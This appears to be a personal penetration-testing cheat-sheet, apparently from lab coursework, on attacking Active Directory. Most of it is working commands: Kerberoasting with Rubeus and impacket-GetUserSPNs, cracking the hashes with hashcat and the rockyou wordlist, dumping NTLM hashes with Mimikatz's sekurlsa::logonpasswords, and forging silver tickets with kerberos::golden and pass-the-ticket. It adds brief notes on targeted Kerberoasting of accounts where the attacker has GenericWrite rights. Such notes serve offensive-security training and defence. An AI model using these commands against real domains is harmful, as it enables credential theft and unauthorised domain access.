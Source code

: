 ```bash
# Sync the time
net time \\dc01.corp.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddress @('192.168.45.213')
# Method from Windows
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Method from Linux
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
# If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Manual version in case Rubeus doesn't work, "https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting".

Let's assume that we are performing an assessment and notice that we have GenericWrite or GenericAll permissions on another AD user account. As stated before, we could reset the user's password but this may raise suspicion. However, we could also set an SPN for the user, kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting. 

#### Silver Tickets

In general, you need to collect the following three pieces of informaiton to create a silver ticket:
	1. SPN password hash
	2. Domain SID
	3. Target SPN

If you are a local Administrator on this machine where iis_service (the SPN) has an established session, we can use Mimikatz to retrieve the SPN password hash (NTLM hash of iis_service). If you have the password, you can generate the NTLM hash with codebeautify.org.

You can only use silver ticket against that host.

```bash
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords # Looking for NTLM hash
```

To obtain the domain SID, the second piece of information we need, we can enter whoami /user to get the SID of the current user. Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain.

```bash
PS C:\Users\jeff> whoami /user # Looking for SID
---------------
User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369 # ignore this part -1105

mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
mimikatz # kerberos::golden /sid:S-1-5-21-1969309164-1513403977-1686805993 /user:Administrator /id:500 /domain:nagoya-industries.com /ptt /target:nagoya /service:MSSQL /rc4:e3a0168bc21cfb88b95c954a5b18f57c # i was chris and had the password of svc_mssql user
mimikatz # kerberos::golden /sid:S-1-5-21-1969309164-1513403977-1686805993 /user:Administrator /id:500 /ptt /target:nagoya.nagoya-industries.com /service:MSSQL /rc4:e3a0168bc21cfb88b95c954a5b18f57c # i was chris and had the password of svc_mssql user
mimikatz # kerberos::golden /domain: /sid: /aes128: /user:<user_name> /service: /target:
mimikatz # kerberos::golden /domain: /sid: /aes256: /user:<user_name> /service:  /target:
mimikatz # kerberos::ptt <ticket_kirbi_file>
```
